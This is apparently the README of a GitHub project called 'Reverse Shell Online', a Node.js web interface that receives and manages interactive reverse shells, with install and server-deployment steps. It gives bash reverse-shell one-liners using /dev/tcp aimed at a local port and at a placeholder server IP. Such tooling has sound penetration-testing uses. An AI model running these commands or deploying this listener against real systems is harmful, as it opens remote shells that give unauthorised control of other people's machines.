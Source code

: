 # Reverse Shell Online

Fully interactive TTY Reverse Shell on web interface

- Can handle multiple session
- Multi-user support
- Download/Upload feature

# Demo

<img src="example.gif">

# Install locally

Install dependendies: ```npm i```

Start project with ```npm start```

ENV Vars:
```
PORT_HTTP=3000
PORT_TCP=1337

Example to start server on HTTP: 8080 & TCP: 6666
PORT_HTTP=8080 PORT_TCP=6666 node index.js
```

Access HTTP server: ```http://localhost:8080```

Example command to spawn a shell:

```sh -i >& /dev/tcp/127.0.0.1/6666 0>&```

# Deploy on a server

## Simple install

```sh
git clone https://github.com/Eteckq/simplershell.git;
npm i;
PORT_HTTP=5555 PORT_TCP=6666 SERVER_ADDRESS=YOUR_SERVER_ADDRESS node index.js
```

Env var ```SERVER_ADDRESS``` is facultative

Then, you need to allow configured port (5555 & 6666 here)

(with ufw)
```
sudo ufw allow 5555,6666
```

And access it with http://YOUR_SERVER_IP:5555

You can test your deployement by spawning a shell:
```
sh -i >& /dev/tcp/YOUR_SERVER_IP/6666 0>&
```

## Behind a reverse proxy

Steps are basically the same, you just need to enable WebSockets for HTTP.

